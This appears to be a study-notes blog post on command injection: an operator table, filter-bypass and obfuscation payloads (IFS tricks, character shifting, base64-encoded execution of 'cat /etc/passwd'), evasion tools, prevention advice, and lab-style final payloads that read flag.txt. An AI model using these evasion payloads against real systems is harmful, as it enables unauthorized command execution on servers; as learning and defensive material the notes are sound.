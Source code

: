 ```yaml
---
layout: post
title: Command Injection
date: 2024-02-29 10:29 +0000
---
```

## Command Injection Methods

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command                           |
| ------------------ | ------------------- | --------------------- | ------------------------------------------ |
| Semicolon          | ;                   | %3b                   | Both                                       |
| New Line           | \n                  | %0a                   | Both                                       |
| Background         | &                   | %26                   | Both (second output generally shown first) |
| Pipe               | \|                  | %7c                   | Both (only second output is shown)         |
| AND                | &&                  | %26%26                | Both (only if first succeeds)              |
| OR                 | \|\|                | %7c%7c                | Second (only if first fails)               |
| Sub-Shell          | ``                  | %60%60                | Both (Linux-only)                          |
| Sub-Shell          | $()                 | %24%28%29             | Both (Linux-only)                          |

## Bypass Spaces

Spaces is  a character commonly blacklisted, to bypass it we can use the following list provided by [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space).

Using tabs: `%0a%09whoami`
Using IFS: `%0a${IFS}whoami`
Using Brace Expansion: `%0a{ls,-la}`

## Bypassing Special Characters

There are multiple ways of bypassing special characters, including the common slash(`/`) and backslash(`\`).
One such technique we can use for replacing special characters is by using the **Linux Environment Variables** . We can specify a **start** and an **end** like: `echo ${PATH:0:1}` and this will get `/`. We can use other variables beside `PATH` like `HOME` or `PWD`.

`${IFS}` its the same as a space

Bypass `;` example: `127.0.0.1${LS_COLORS:10:1}${IFS}whoami`

In Windows we can use a similar technique: `echo %HOMEPATH:~6,-11%`
We can achieve the same in Powershell with: `$env:HOMEPATH[0]`

Another well known technique is called shifting characters. Basically we only need to find a character in ascii before the character we want to use and that is being filtered(`man ascii `). For example: `\` is on 92, before it is `[` on 91. We can then execute the following command: `echo $(tr '!-}' '"-~'<<<[)` to get `\`.

If we want `;` then `$(tr '!-}' '"-~'<<<:)`

If we want `|` then `$(tr '!-}' '"-~'<<<{)`

## Bypassing Blacklisted commands

Using quotes and double quotes:

```shell
w'h'o'am'i
w"h"o"am"i
```

Note: The number of quotes needs to be even

In Linux we can use: 

```shell
who$@ami
w\ho\am\i
```

In windows we can use:

```shell
who^ami
```

Final Payload: `ip=127.0.0.1${IFS}%0ac'at'${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt`

## Advanced Command Obfuscation

Case Manipulation(Windows): `WHOAMI` and `WhOaMi`
Case Manipulation(Linux): `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` and `$(a="WhOaMi";printf %s "${a,,}")`
Reversed Commands(Linux):
    - First get the reverse string: `echo 'whoami' | rev`
    - Then we can use: `$(rev<<<'imaohw')`
Reversed Commands(Windows):
    - First get the reverse string: `"whoami"[-1..-20] -join ''`
    - The we can use: `iex "$('imaohw'[-1..-20] -join '')"`
Encoded Commands:
    - We can use base 64(Linux): `echo -n 'cat /etc/passwd | base64` and `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`
    - We can use base 64(Linux): `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` and `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`
Other obfuscation techniques: [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).


## Evasion Tools

If we are dealing with advanced security tools, we may not be able to use basic, manual obfuscation techniques.
Tool for linux: [bashfuscator](https://github.com/Bashfuscator/Bashfuscator)
Tool for windows: [DOSfunction](https://github.com/danielbohannon/Invoke-DOSfuscation)

## Prevention

- We should always avoid or limit the use of functions that execute system commands
- Whether using built-in functions or system command execution functions, we should always validate and then sanitize the user input. Input validation should be done both on the front-end and on the back-end.
- Server Configurations:
    - Use the web server's built-in Web Application Firewall (e.g., in Apache mod_security), in addition to an external WAF (e.g. Cloudflare, Fortinet, Imperva..)
    - Abide by the Principle of Least Privilege (PoLP) by running the web server as a low privileged user (e.g. www-data)
    - Prevent certain functions from being executed by the web server (e.g., in PHP disable_functions=system,...)
    - Limit the scope accessible by the web application to its folder (e.g. in PHP open_basedir = '/var/www/html')
    - Reject double-encoded requests and non-ASCII characters in URLs
    - Avoid the use of sensitive/outdated libraries and modules (e.g. PHP CGI)


Final Payload: `GET /index.php?to=%26%26${IFS}c'a't${IFS}${PATH:0:1}flag.txt&from=tmp${PATH:0:1}696212415.txt&finish=1&move=1 HTTP/1.1`
Since this is a move functionality the `to` parameter is the last argument of the `mv` command, so we insert our payload after it.